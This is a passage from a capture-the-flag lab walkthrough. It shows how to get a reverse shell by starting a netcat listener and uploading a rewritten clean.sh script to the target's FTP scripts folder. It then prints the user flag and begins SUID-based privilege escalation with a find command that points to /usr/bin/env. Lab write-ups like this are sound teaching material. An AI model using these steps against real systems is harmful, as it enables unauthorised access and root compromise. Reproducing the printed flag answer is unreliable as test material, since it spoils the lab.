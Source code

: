 that what the file will look like.

start a listener on your local machine

```

nc -lvp 4444

```

then enter the ftp #ftp

```

ftp 10.10.235.16

cd scripts

```

after that type to upload the file to ftp

```

put clean.sh

```

go back to the listener. wait and you will get a connection.

![](https://i.imgur.com/xeoY9YZ.png)

**Q4**:user.txt

A4:90d6f992585815ff991e68748c414740



-------------------------------

# Privilege Escalation 

fifth question asks for root.txt so we want to escalate our privilege.

try "sudo -l" and it won't work. so we will try suid. #Linux_privilege_escalation 

by typing this command [Privilege Escalation](Linux.md)

```

find / -perm -4000 -type f -ls 2>/dev/null

```



![](https://i.imgur.com/m4NeIoa.png)

all seems built-in in Linux. except /usr/bin/env . that we can search for it in GTFObins. ==first time. it's hard to identify SUID that u can escalate your privilege by it. but by practice u can identify it quickly. 
